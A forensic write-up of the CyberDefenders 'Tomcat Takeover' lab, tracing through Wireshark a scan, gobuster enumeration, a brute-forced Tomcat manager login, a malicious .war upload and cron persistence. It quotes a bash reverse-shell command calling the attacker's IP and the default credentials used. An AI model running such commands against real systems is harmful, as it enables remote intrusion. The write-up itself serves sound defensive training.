










# Lab Overview
---
**Lab:** [Tomcat Takeover Lab](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)  
**Platform:** CyberDefenders  
**Category:** Network Forensics  
**Difficulty:** Easy  
**Tools:** Wireshark, ipinfo  

# Summary
---
This lab investigates a network attack against an Apache Tomcat web server using PCAP analysis. Using Wireshark to investigate, initial analysis revealed that the attacker (`14.0.0.120`) conducted port scanning to identify exposed services, eventually targeting port `8080` which hosts the Tomcat admin interface.  

The attacker used `gobuster`, an enumeration tool, to discover sensitive directories including `/admin` and `/manager`. After identifying the login portal, the attacker successfully brute-forced credentials and gained unauthorized access to the server.  

Following the initial access, the attacker uploaded a malicious `.war` file to deploy a reverse shell allowing them to remotely execute commands on the compromised system. Post-exploitation activity confirmed that the attacker established persistence through a scheduled cron job that continuously connects back to the attacker's machine. Overall, this attack demonstrated the full cyber kill chain from reconnaissance through port scanning to exploitation, remote code execution, and persistence.  

# Scenario
---
The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.  

# Analysis
---
## Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

To identify scanning behavior, I used the `Statistics > Conversations` feature in Wireshark to check the TCP conversations in this network capture.  
  
Upon sorting port B in ascending order, it revealed that the IP address `14[.]0[.]0[.]120` showed port scanning activity. The destination ports increasing sequentially from low to high values indicates that this behavior is suspicious and it is a common pattern associated with port scanning activity.  

## Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?

To further investigate the IP address `14[.]0[.]0[.]120`, I used IPinfo to reveal geolocation details on this IP address. From the screenshot below, this IP address originated from `China`.  
  

## From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?

Typically, web servers use the HTTP or HTTPS protocol. I filtered the traffic using the search `ip.src==14.0.0.120 and http` to show all HTTP traffic that originated from the malicious IP address.  
  
From my analysis into the traffic, I identified that at packet 20126, the attacker accessed the webpage `/admin` over the host `10.0.0.112` using port `8080`.  

## Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

To identify what tool the attacker used to enumerate directories, we can look into the packet details specifically the User-Agent because that will tell us what was used to access the directory/file.  
  
At packet 20089, I discovered its User-Agent as `gobuster`, a command-line tool that is used for brute-forcing directories, files, and DNS subdomains on web servers. I analyzed the details of each packet after packet 20089 and can confirm each had it's User-Agent value as `gobuster`. This behavior indicates that the attacker used the `gobuster` tool to enumerate directories and files on the web server.  

## After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?

Further analysis revealed another directory named `/manager`. There are sub-directories in this directory that involves server configurations and statuses which confirms this is likely the other directory related to the admin panel.  
  

## After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?

To identify any credentials that were sent over the network, I used the `Tools > Credentials` feature in Wireshark which extracts all credentials from the network capture.  
  
Packet 20571 revealed that the attacker successfully logged in using the credentials `admin:tomcat` and was able to access a `.gif` file on the web server.  

## Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

To identify the name of the malicious file the attacker uploaded, I am looking specifically for POST traffic which I identified at packet 20616. Then I followed its TCP stream using `Follow > TCP stream` to inspect the full request and extract details from the payload.  
  

Based on the screenshot below, a suspicious file named `JXQOZY.war` was uploaded to the web server.  
  

## After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

Since commands can only be executed after the reverse shell has been deployed, I filtered for all traffic occurring after packet 20642. Then I filtered for traffic that contains a TCP payload because command executions are carried within these payloads.  
  
Based on the result, I identified a sequence of packets with the PSH flag set, indicating the prescence of data. Inspecting the packet detail of packet 20651 revealed the command `whoami`, likely to obtain the username of the current user on the compromised machine.  

I followed the TCP stream of this packet and it revealed that the attacker used `crontab` to schedule the command `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` to run to ensure the attacker maintained persistence on the compromised machine.  
  
